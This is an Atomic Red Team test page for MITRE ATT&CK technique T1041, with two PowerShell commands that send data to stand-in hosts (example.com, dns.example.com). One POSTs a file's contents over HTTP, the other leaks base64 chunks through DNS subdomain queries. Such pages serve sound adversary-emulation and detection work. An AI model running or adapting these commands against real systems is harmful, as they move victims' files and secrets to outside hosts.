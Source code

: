 # T1041 - Exfiltration Over C2 Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1041)
<blockquote>

Adversaries may steal data by exfiltrating it over an existing command and control channel. Stolen data is encoded into the normal communications channel using the same protocol as command and control communications.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 Data Exfiltration](#atomic-test-1---c2-data-exfiltration)

- [Atomic Test #2 - Text Based Data Exfiltration using DNS subdomains](#atomic-test-2---text-based-data-exfiltration-using-dns-subdomains)


<br/>

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | path | $env:TEMP&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
if(-not (Test-Path #{filepath})){ 
  1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
}
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```






<br/>
<br/>

## Atomic Test #2 - Text Based Data Exfiltration using DNS subdomains
Simulates an adversary using DNS tunneling to exfiltrate data over a Command and Control (C2) channel.

**Supported Platforms:** Windows


**auto_generated_guid:** c9207f3e-213d-4cc7-ad2a-7697a7237df9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dns_server | DNS server IP address or domain name. | url | dns.example.com|
| exfiltrated_data | Data to be exfiltrated. | string | SecretDataToExfiltrate|
| chunk_size | Size of each DNS query chunk (in characters). | integer | 63|


#### Attack Commands: Run with `powershell`! 


```powershell
$dnsServer = "#{dns_server}"
$exfiltratedData = "#{exfiltrated_data}"
$chunkSize = #{chunk_size}

$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"

foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```






<br/>
